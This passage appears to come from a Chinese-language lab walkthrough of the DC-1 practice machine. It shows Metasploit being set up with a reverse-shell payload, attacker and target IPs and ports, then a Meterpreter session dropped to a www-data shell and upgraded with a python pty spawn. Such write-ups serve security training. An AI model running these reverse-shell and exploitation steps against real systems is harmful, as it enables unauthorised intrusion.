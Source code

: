```
# 感觉只要设置攻击机以及监听端口，还有目标机器

show options
```

```
# 设置个反弹shell

show payloads

set payload 3
```

```

# 配置MSF

set lhost 192.168.45.208

set lport 5555

set rhosts 192.168.230.193

set rport 80

run
```

成功`getwebshell`

### 内网遨游-getshell

#### 交互shell

由于获取的`shell`交互不友好，使用`shell`先获取`shell`

```
# 利用shell命令获取shell

meterpreter &gt; shell

Process 4192 created.

Channel 0 created.

pwd

/var/www

whoami

www-data

# 利用python获取交互shell -&gt; python失败使用python3

python -c "import pty;pty.spawn('/bin/bash')";

www-data@DC-1:/var/www$
```
